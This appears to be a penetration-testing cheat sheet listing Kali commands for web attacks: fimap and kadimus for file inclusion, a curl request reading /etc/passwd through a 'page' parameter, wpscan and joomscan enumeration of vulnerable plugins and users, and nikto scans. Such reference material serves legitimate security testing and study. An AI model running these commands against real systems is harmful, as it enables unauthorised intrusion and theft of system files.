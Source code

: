 > ##### LFI/RFI

```
# FIMAP
Kali> fimap -u "http://$TARGET/example.php?test="

# cURL
Kali> curl -s http://$TARGET/gallery.php?page=/etc/passwd

# kadimus
Kali> /root/Tools/Kadimus/kadimus -u http://$TARGEET/example.php?page=

```

> ##### WPScan 

```
(vp = Vulnerable Plugins, vt = Vulnerable Themes, u = Users)

Kali> wpscan --url http://$TARGET
Kali> wpscan --url http://$TARGET --enumerate vp
Kali> wpscan --url http://$TARGET --enumerate vt
Kali> wpscan --url http://$TARGET --enumerate u
```

> ##### Joomscan

```
Kali> joomscan -u  http://$TARGET 
Kali> joomscan -u  http://$TARGET --enumerate-components
```

> ###### Nikto

```
# Basic
Kali> nikto -h http://$TARGET

# Include specific tuning, see further below
Kali> nikto -Tuning x 6 -h http://$TARGET

		0 - File Upload

        1 - Interesting File / Seen in logs

        2 - Misconfiguration / Default File

        3 - Information Disclosure

        4 - Injection (XSS/Script/HTML)

        5 - Remote File Retrieval - Inside Web Root

        6 - Denial of Service

        7 - Remote File Retrieval - Server Wide

        8 - Command Execution / Remote Shell

        9 - SQL Injection

        a - Authentication Bypass

        b - Software Identification

        c - Remote Source Inclusion

        x - Reverse Tuning Options (i.e., include all except specified)
```